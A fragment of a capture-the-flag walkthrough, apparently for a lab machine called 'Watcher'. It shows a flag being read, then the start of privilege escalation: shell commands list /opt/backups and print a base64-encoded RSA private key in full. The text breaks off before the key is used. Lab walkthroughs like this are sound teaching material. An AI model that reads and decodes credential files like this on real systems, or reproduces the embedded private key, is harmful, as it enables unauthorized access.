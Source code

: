 ### Flag6

```bash
will@watcher:/home/will$ cat flag_6.txt
cat flag_6.txt
FLAG{but_i_thought_my_script_was_secure}
```

# Now privesc

```bash

will@watcher:/opt/backups$ id 
uid=1000(will) gid=1000(will) groups=1000(will),4(adm)
will@watcher:/opt/backups$ cd /opt/
will@watcher:/opt$ ls
backups
will@watcher:/opt$ cd backups/
will@watcher:/opt/backups$ ls
key.b64
will@watcher:/opt/backups$ cat key.b64 
LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFcEFJQkFBS0NBUUVBelBhUUZvbFFx
OGNIb205bXNzeVBaNTNhTHpCY1J5QncrcnlzSjNoMEpDeG5WK2FHCm9wWmRjUXowMVlPWWRqWUlh
WkVKbWRjUFZXUXAvTDB1YzV1M2lnb2lLMXVpWU1mdzg1ME43dDNPWC9lcmRLRjQKanFWdTNpWE45
ZG9CbXIzVHVVOVJKa1ZuRER1bzh5NER0SXVGQ2Y5MlpmRUFKR1VCMit2Rk9ON3E0S0pzSXhnQQpu
TThrajhOa0ZrRlBrMGQxSEtIMitwN1FQMkhHWnJmM0RORm1RN1R1amEzem5nYkVWTzdOWHgzVjNZ
T0Y5eTFYCmVGUHJ2dERRVjdCWWI2ZWdrbGFmczRtNFhlVU8vY3NNODRJNm5ZSFd6RUo1enBjU3Jw
bWtESHhDOHlIOW1JVnQKZFNlbGFiVzJmdUxBaTUxVVIvMndOcUwxM2h2R2dscGVQaEtRZ1FJREFR
QUJBb0lCQUhtZ1RyeXcyMmcwQVRuSQo5WjVnZVRDNW9VR2padjdtSjJVREZQMlBJd3hjTlM4YUl3
YlVSN3JRUDNGOFY3cStNWnZEYjNrVS80cGlsKy9jCnEzWDdENTBnaWtwRVpFVWVJTVBQalBjVU5H
VUthWG9hWDVuMlhhWUJ0UWlSUjZaMXd2QVNPMHVFbjdQSXEyY3oKQlF2Y1J5UTVyaDZzTnJOaUpR
cEdESkRFNTRoSWlnaWMvR3VjYnluZXpZeWE4cnJJc2RXTS8wU1VsOUprbkkwUQpUUU9pL1gyd2Z5
cnlKc20rdFljdlk0eWRoQ2hLKzBuVlRoZWNpVXJWL3drRnZPRGJHTVN1dWhjSFJLVEtjNkI2CjF3
c1VBODUrdnFORnJ4ekZZL3RXMTg4VzAwZ3k5dzUxYktTS0R4Ym90aTJnZGdtRm9scG5Gdyt0MFFS
QjVSQ0YKQWxRSjI4a0NnWUVBNmxyWTJ4eWVMaC9hT0J1OStTcDN1SmtuSWtPYnBJV0NkTGQxeFhO
dERNQXo0T3FickxCNQpmSi9pVWNZandPQkh0M05Oa3VVbTZxb0VmcDRHb3UxNHlHek9pUmtBZTRI
UUpGOXZ4RldKNW1YK0JIR0kvdmoyCk52MXNxN1BhSUtxNHBrUkJ6UjZNL09iRDd5UWU3OE5kbFF2
TG5RVGxXcDRuamhqUW9IT3NvdnNDZ1lFQTMrVEUKN1FSNzd5UThsMWlHQUZZUlhJekJncDVlSjJB
QXZWcFdKdUlOTEs1bG1RL0UxeDJLOThFNzNDcFFzUkRHMG4rMQp2cDQrWThKMElCL3RHbUNmN0lQ
TWVpWDgwWUpXN0x0b3pyNytzZmJBUVoxVGEybzFoQ2FsQVF5SWs5cCtFWHBJClViQlZueVVDMVhj
dlJmUXZGSnl6Z2Njd0V4RXI2Z2xKS09qNjRiTUNnWUVBbHhteC9qeEtaTFRXenh4YjlWNEQKU1Bz
K055SmVKTXFNSFZMNFZUR2gydm5GdVR1cTJjSUM0bTUzem4reEo3ZXpwYjFyQTg1SnREMmduajZu
U3I5UQpBL0hiakp1Wkt3aTh1ZWJxdWl6b3Q2dUZCenBvdVBTdVV6QThzOHhIVkk2ZWRWMUhDOGlw
NEptdE5QQVdIa0xaCmdMTFZPazBnejdkdkMzaEdjMTJCcnFjQ2dZQWhGamkzNGlMQ2kzTmMxbHN2
TDRqdlNXbkxlTVhuUWJ1NlArQmQKYktpUHd0SUcxWnE4UTRSbTZxcUM5Y25vOE5iQkF0aUQ2L1RD
WDFrejZpUHE4djZQUUViMmdpaWplWVNKQllVTwprSkVwRVpNRjMwOFZuNk42L1E4RFlhdkpWYyt0
bTRtV2NOMm1ZQnpVR1FIbWI1aUpqa0xFMmYvVHdZVGcyREIwCm1FR0RHd0tCZ1FDaCtVcG1UVFJ4
NEtLTnk2d0prd0d2MnVSZGo5cnRhMlg1cHpUcTJuRUFwa2UyVVlsUDVPTGgKLzZLSFRMUmhjcDlG
bUY5aUtXRHRFTVNROERDYW41Wk1KN09JWXAyUloxUnpDOUR1ZzNxa3R0a09LQWJjY0tuNQo0QVB4
STFEeFUrYTJ4WFhmMDJkc1FIMEg1QWhOQ2lUQkQ3STVZUnNNMWJPRXFqRmRaZ3Y2U0E9PQotLS0t
LUVORCBSU0EgUFJJVkFURSBLRVktLS0tLQo=
will@watcher:/opt/backups$ 

```
copy the key.64 and decoded it found
